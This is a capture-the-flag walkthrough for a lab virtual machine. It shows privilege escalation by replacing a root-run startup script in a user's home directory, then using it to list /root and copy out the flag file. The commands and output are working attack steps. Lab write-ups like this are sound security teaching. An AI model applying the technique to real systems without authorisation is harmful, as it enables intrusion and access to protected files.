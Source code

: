 # Retrieving the Flag with the IP Script

## Gathering Info

Once logged in as the oscp user you can see that the ip script is in the oscp home directory. It is owned by root but we have the ability to read it.

To see how it is called we can run a grep search. The most likely spot to search is the `/etc/` directory:

``` bash
grep -r "/home/oscp/ip" /etc/
```

This returns:

``` text
/etc/systemd/system/ip-update.service:ExecStart=/home/oscp/ip
```

We can then check the `ip-update` service to see exactly how it is called.

``` bash
cat /etc/systemd/system/ip-update.service
```

Which returns:

``` text
[Unit]
Description=Write current ip addr to /etc/issue

[Service]
Type=oneshot
RemainAfterExit=true
ExecStart=/home/oscp/ip

[Install]
WantedBy=multi-user.target
```

Since no user information is present we know that the `ip` script is run as root. Since the script is in the oscp user directory we can rename the current script and create our own that will be run as root.

## Listing `/root/` Files

The WordPress post tells us the flag is in the `/root/` directory. So the first step is to list all the files in that directory. Rename the current ip script, create a new one and make it executable:

``` bash
cd /home/oscp/
mv ip ip.old
touch ip
chmod +x ip
```

Edit the new ip script with the following:

``` bash
#!/bin/sh
ls -la /root/ > /home/oscp/ls.txt
```

Now reboot the virtual machine. When it reboots our script will be run and we see the following:

``` text
-bash-5.0$ cat ls.txt
total 64
drwx------  6 root root 4096 Jul 11 17:21 .
drwxr-xr-x 20 root root 4096 Jul 25 16:10 ..
-rw-------  1 root root  258 Jul 11 17:35 .bash_history
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  2 root root 4096 Jul  9 08:19 .cache
-rwxr-xr-x  1 root root  248 Jul 11 17:15 fix-wordpress
-rw-r--r--  1 root root   33 Jul  9 06:39 flag.txt
drwxr-xr-x  3 root root 4096 Jul  9 18:27 .local
-rw-------  1 root root 1893 Jul 11 17:21 .mysql_history
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r--r--  1 root root   66 Jul 11 17:15 .selected_editor
drwxr-xr-x  3 root root 4096 Jul  9 03:38 snap
drwx------  2 root root 4096 Jul  9 03:38 .ssh
-rw-------  1 root root 9922 Jul 11 17:15 .viminfo
```

## Retrieving the Flag

Now we know the name of the file, we can edit the ip script once again to copy the contents to the oscp user directory:

``` bash
#!/bin/sh
cp /root/flag.txt /home/oscp/flag.txt
chown oscp:oscp /home/oscp/flag.txt
```

One more reboot and the flag will be located in the oscp home directory and owned by oscp.

``` text
-rw-r--r-- 1 oscp oscp   33 Jul 25 16:19 flag.txt
-rwxrwxr-x 1 oscp oscp   84 Jul 25 16:18 ip
-rwxr-xr-x 1 root root   88 Jul  9 08:15 ip.old
-rw-r--r-- 1 root root  721 Jul 25 16:13 ls.txt
```
